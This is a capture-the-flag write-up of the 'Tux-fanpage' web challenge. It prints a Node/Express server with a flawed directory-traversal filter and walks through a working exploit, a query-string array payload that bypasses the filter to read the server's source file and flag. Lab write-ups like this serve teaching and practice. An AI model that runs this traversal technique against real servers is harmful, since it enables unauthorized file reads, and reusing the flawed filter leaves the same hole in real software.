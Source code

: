 ## Tux-fanpage :

The description of this challenge was : " My friend made a fanpage for Tux , can you steal the source code for me? " and the home page was presented like this :

![Capture](https://user-images.githubusercontent.com/59454895/85960368-567c0e80-b9a3-11ea-9c0e-7f4cf8068294.PNG)

The source code of the server is as follows:

const express = require('express')
const path = require('path')
const app = express()

//Don't forget to redact from published source
const flag = '[REDACTED]'

app.get('/', (req, res) => {
    res.redirect('/page?path=index.html')
})

app.get('/page', (req, res) => {

    let path = req.query.path

    //Handle queryless request
    if(!path || !strip(path)){
        res.redirect('/page?path=index.html')
        return
    }
    path = strip(path)

    path = preventTraversal(path)

    res.sendFile(prepare(path), (err) => {
        if(err){
            if (! res.headersSent) {
                try {
                    res.send(strip(req.query.path) + ' not found')
                } catch {
                    res.end()
                }
            }
        }
    })
})

//Prevent directory traversal attack
function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}

//Get absolute path from relative path
function prepare(dir){
    return path.resolve('./public/' + dir)
}

//Strip leading characters
function strip(dir){
    const regex = /^[a-z0-9]$/im

    //Remove first character if not alphanumeric
    if(!regex.test(dir[0])){
        if(dir.length > 0){
            return strip(dir.slice(1))
        }
        return ''
    }

    return dir
}

app.listen(3000, () => {
    console.log('listening on 0.0.0.0:3000')
})
The qs package is used by express to parse the request params. This package can also accept arrays from the request params if they are passed as follows:

https://mysite.tld/route?param[]=1&param[]=2
This treats param as an array [1,2]. We can use this property to exploit this website.

Upon analysis, we see that the page is the accepted from the query, hence passing something like ../index.js will give us the source code which has the flag. But here's the catch. There are 2 functions which prevent anything of this sort. First, the strip function removes characters from the start of the string until it matches the regex /^[a-z0-9]$/im. However, if the start of the string matches this regex, it will not check any further. This prevents us from having absolute paths like /etc/passwd or paths starting with ../ in the page param.

The second function which we need to bypass is the preventTraversal function, which recursively removes all instances of ../ from your string.

Now, let's analyze what happens if we pass an array as the page param.

First, we encounter the strip function.

const regex = /^[a-z0-9]$/im

//Remove first character if not alphanumeric
if(!regex.test(dir[0])){
    if(dir.length > 0){
        return strip(dir.slice(1))
    }
    return ''
}

return dir
This takes the parameter dir (which is page, basically), and matches the first index with the regex. However, since page and hence dir is now an array, it will just check the first element of the array. We want dir to be returned as is, so the first element of the array has to match that regex. Our payload so far is:

https://tux-fanpage.2020.redpwnc.tf/?page[]=a
We get back the same path from the strip function, so now we have to bypass the preventTraversal function.

path = strip(path) // returns same path if path[0]='a'

path = preventTraversal(path)
The preventTraversal function looks like:

function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}
In case dir is a string, it checks if the string has ../ in it, and removes every instance of it, recursively. Now, since dir is an array, dir.includes('../) will match only if an element of the array is exactly ../. So we are now free to do ../something, because that does not match ../ exactly. So, we can update our payload:

https://tux-fanpage.2020.redpwnc.tf/?page[]=a&page[]=../something
Now let's figure out what the something is going to be. So, the page is actually loaded in the following code snippet:

res.sendFile(prepare(path), (err) => {
    if(err){
        if (! res.headersSent) {
            try {
                res.send(strip(req.query.path) + ' not found')
            } catch {
                res.end()
            }
        }
    }
})
The path of the file is obtained using the prepare function, let's check that out.

function prepare(dir){
    return path.resolve('./public/' + dir)
}
Okay, so here's a problem. dir is an array, can we add an array to a string? Well, apparently you can, in javascript.

> 'hello'+[1,2,3]
"hello1,2,3"
So it just concatenates the comma separated array to the end of the string. That's really useful for this challenge! Now, we have to think of an array of dir so that path.resolve('./public/' + dir) returns ./index.html, keeping in mind the previous things we established.

> dir = ['a', '/../../index.js']
> './public/' + dir
"./public/a,/../../index.js"
When you pass this string to path.resolve(), it resolves it to ./index.js (It does not matter if the directory a, does not exist, path.resolve() does not care). Great! We've found our payload.

https://tux-fanpage.2020.redpwnc.tf/page?path[]=a&path[]=/../../index.js
This returns the source code. The flag is:

flag{tr4v3rsal_Tim3}
